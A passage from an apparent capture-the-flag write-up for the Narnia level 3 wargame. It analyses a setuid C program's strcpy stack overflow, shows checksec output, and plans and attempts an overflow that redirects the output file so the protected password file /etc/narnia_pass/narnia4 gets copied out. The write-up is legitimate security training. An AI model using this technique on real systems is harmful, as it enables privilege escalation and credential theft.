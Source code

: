 ```c
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

The vulnerability seems to be here, a stack buffer overflow:
```c
strcpy(ifile, argv[1]);
```
But the main function never returns, so overwriting the return pointer isn't an option.
Also, providing a payload that is not a valid file name woud make the program exit with *exit(-1)*, which is the same as the exit in main really.

Also the stack is not executable anymore.
```bash
narnia3@narnia:/narnia$ /usr/local/bin/checksec.sh --file narnia3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   narnia3
```

The *ifile[]* buffer is 32 bytes in size.


It looks like we can overwrite the *ofile[]*, we could provide the *ifile* as */etc/narnia_pass/narnia4* and the *ofile* something that we own, like */tmp/cezarp/narnia4_pass*.
This string has *24* characters, which means we will overwrite the *ofile* array, after adding an additional (32-24=8) chars, spaces work because they are not taken into consideration in filename interpretation.

```bash
narnia3@narnia:/tmp/cezarPP$ /narnia/narnia3 '/etc/narnia_pass/narnia4'
copied contents of /etc/narnia_pass/narnia4 to a safer place... (/dev/null)
narnia3@narnia:/tmp/cezarPP$ /narnia/narnia3 '/etc/narnia_pass/narnia4 '
error opening /etc/narnia_pass/narnia4
```
